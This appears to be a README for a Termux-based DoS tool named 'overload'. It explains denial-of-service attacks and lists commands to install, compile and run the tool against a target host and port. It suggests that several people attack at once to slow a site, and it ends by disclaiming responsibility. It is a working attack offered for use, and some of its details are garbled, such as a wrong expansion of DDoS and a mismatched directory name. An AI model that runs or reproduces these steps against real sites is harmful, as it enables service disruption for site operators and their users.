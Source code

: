 # Termux-Dos-attacker-tool 
DoS Attack Using Termux

DDos Is A Cyberattack (Denial Distribution Of Service) With the help of Ddos Attack One Can Shutdown A whole Website(if successful), In ddos Attacker makes botnet and Send programmed request to target servers

What is the `overload` Tool? This Tool is an open source DDOS Attack Tool written in C programming Language.

Usually this attack can also be done using other linux based OS.

Site Crash with Termux? Since this process is done by Telephone, that is, via Termux, the Site does not collapse easily, but when this process is performed with more than 1 person, there may be a slowdown in the Site.

Since this is a minor attack, it does not affect Large sites (Google, Facebook, etc.) Termux Xerxes installation? Download Termux from Google Play…

#commands⬇️

 -`apt update`

 -`apt upgrade`

 -`pkg install git`

 -`pkg install clang`

 -`git clone https://github.com/abirhosenakram/Termux-Dos-attacker-tool`

 -`cd overload`

 -`clang overload.c -o overload`

 -`./overload www.example.com 80`

# ⚠we aren't responsible for any illegal activities 
